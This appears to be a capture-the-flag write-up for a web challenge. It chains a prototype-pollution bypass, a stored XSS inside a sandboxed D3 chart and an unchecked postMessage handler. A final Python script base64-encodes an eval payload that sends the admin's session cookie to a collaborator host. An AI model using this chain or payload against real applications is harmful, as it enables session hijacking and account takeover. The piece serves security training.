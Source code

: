 # WorkBreak Writeup

## Objective:

The objective is to exploit an XSS vulnerability on the challenge domain and leverage it to exfiltrate the session cookie of the support engineer.

## Exploitation Steps:

First, the participant creates a user in the WorkBreak application.

The participant then reviews the HTTP traffic and notices the following endpoints: `/api/user/profile` and `/api/user/settings`, which are used to retrieve and submit profile information.
Strangely, all the data submitted via the `/api/user/settings` endpoint is reflected under the `"dynamicInfo"` key in the JSON response from the `/api/user/profile` endpoint (hinting at a vulnerability). After a bit of tinkering, the participant discovers that the application is vulnerable to a mass assignment vulnerability through these endpoints.

After reviewing the `performance_chart.js` script, the participant understands that the script consumes a “tasks" JSON array, which consists of objects with two keys: `tasksCompleted` and `date`. The `tasksCompleted` key is inserted into the sink via the `.html()` method of the D3.js library in several locations.

```js
const taskCounts = generateTaskHeatmapData(taskData);
const today = new Date().toISOString().split("T")[0];
const todayTask = taskData.find((task) => task.date === today);
const todayTasksDiv = d3.select("#todayTasks");
if (todayTask) {
    todayTasksDiv.html(`Tasks Completed Today: ${todayTask.tasksCompleted}`);
} else {
    todayTasksDiv.html("Tasks Completed Today: 0");
}
```

```js
on("mouseover", function (event, d) {
tooltip
.html(`Tasks Completed: ${d.count}`)...
```

The participant understands that, to exploit an XSS vulnerability here without user interaction, they need to insert the payload into the `tasksCompleted` JSON key with today’s date to pass the `if (todayTask)` statement.

When the participant attempts to use the mass assignment vulnerability to exploit the XSS, they receive the following response from the `/api/user/settings` endpoint:

### Request:

```json
{
    "name": "Anon",
    "phone": "",
    "position": "",
    "tasks": [
        {
            "date": "YYYY-MM-DD", // Today's date
            "tasksCompleted": "<img/src/onerror=alert(origin)>"
        }
    ]
}
```

### Response

```json
{
    "error": "Not Allowed to Modify Tasks"
}
```

To bypass this input validation mechanism, the participant notices that the `profie.js` script, which passes the “tasks" array to the `performance_chart.js` script, parses the `dynamicInfo` key from `/api/user/profile` in the following manner:

```js
const userSettings = Object.assign({ name: "", phone: "", position: "" }, profileData.dynamicInfo);
```

`Object.assign` should raise a red flag indicating a potential prototype pollution vulnerability. The participant crafts the following payload:

```json
{
    "name": "Anon",
    "phone": "",
    "position": "",
    "__proto__": {
        "tasks": [
            {
                "date": "YYYY-MM-DD", // Today's date
                "tasksCompleted": "<img/src/onerror=alert(origin)>"
            }
        ]
    }
}
```

It works! the participant is able to bypass the backend check of the `"tasks"` key and insert an alert to be executed using the D3.js library.
However, the origin is 'null' because the D3.js chart is contained within a sandbox iframe.

One small challenge remains for the participant. To exploit an XSS vulnerability on the challenge domain, the participant needs to peek again at the code of the `profile.js` script and find another sink that can be exploited using the contained XSS.

```js
// Not fully implemented - total tasks
window.addEventListener(
    "message",
    (event) => {
        if (event.source !== frames[0]) return;

        document.getElementById("totalTasks").innerHTML = `<p>Total tasks completed: ${event.data.totalTasks}</p>`;
    },
    false
);
```

The participant sends a postMessage to the EventListener and exploit the second XSS vulnerability:

```js
(async () => {
    parent.postMessage({ totalTasks: "<img/src/onerror=eval(atob(<ENCODED_PAYLOAD>))>" }, "*");
})();
```

Now that all vulnerabilities have been discovered, the next step for the participant is to craft a payload to exfiltrate the session cookie of the support engineer and solve the challenge.

## Solution Script

Let's put it all together with this solution script:

```py
import  requests
import  base64
import  datetime

FRONTEND_DOMAIN  =  "dev.local"  # Change
COLLABORATOR_DOMAIN  =  "aaa.oastify.com"  # Change

# Get a session
requests.post(f"http://{FRONTEND_DOMAIN}/api/auth/signup", json={"email": "solution@challenge.com", "password" : "Solution123"})
login_res  =  requests.post(f"http://{FRONTEND_DOMAIN}/api/auth/login", json={"email": "solution@challenge.com", "password" : "Solution123"}, allow_redirects=False)
sid  =  login_res.cookies.get("SID")
print(f"[+] session retrieved successfully: {sid}")

extract_flag  =  "(async () => {await fetch(`https://"  +  COLLABORATOR_DOMAIN  +  "/?${document.cookie}`);})();"
post_message_payload  =  f"(async () => {{parent.postMessage({{\"totalTasks\":\"<img/src/onerror=eval(atob('{base64.b64encode(extract_flag.encode('utf-8')).decode()}'))>\"}},'*');}})()"
payload  = {
	"name": "Anon",
	"phone": "",
	"position": "",
	"__proto__": {
		"tasks": [
			{
			"date": datetime.date.today().strftime("%Y-%m-%d"),
			"tasksCompleted": f"<img/src/onerror=eval(atob(\"{base64.b64encode(post_message_payload.encode("utf-8")).decode()}\"))>",
			}
		]
	},
}

# Store the XSS payload
requests.post(f"http://{FRONTEND_DOMAIN}/api/user/settings", headers={"Cookie": f"SID={sid}"}, json=payload)
print("[+] payload has been persisted!")

# Exploit the admin
uuid_res  =  requests.get(f"http://{FRONTEND_DOMAIN}/", headers={"Cookie": f"SID={sid}"}, allow_redirects=False)
requests.post(f"http://{FRONTEND_DOMAIN}/api/support/chat", headers={"Cookie": f"SID={sid}"}, json={"message":f"http://{FRONTEND_DOMAIN}{uuid_res.headers["Location"]}"})
print("[+] admin exploited - check the collaborator")
```
